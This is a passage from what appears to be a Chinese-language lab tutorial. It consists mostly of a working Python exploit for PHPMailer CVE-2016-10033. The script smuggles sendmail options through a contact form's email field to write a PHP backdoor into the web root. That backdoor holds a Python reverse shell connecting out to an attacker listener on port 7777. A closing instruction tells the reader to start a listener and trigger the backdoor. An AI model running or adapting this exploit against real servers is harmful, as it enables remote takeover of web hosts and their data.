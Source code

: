 ```
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://192.168.59.128/'
direc='contact.php'
backdoor = '/shell.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.59.130\\\',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'subject':'test',
        'email': '"attacker\\" -oQ/tmp/ -X/var/www/html/shell.php  some"@email.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}

print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target+direc, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
else: 
        print('something is wrong')
```

现在启动一个监听器并运行漏洞，之后你将不得不访问后门来启动连接。

![](img/203cfc7aaef5297320215f443b7407c3.png)

在进攻方。

![](img/777e227e0483f0d080c4633dc6923e00.png)
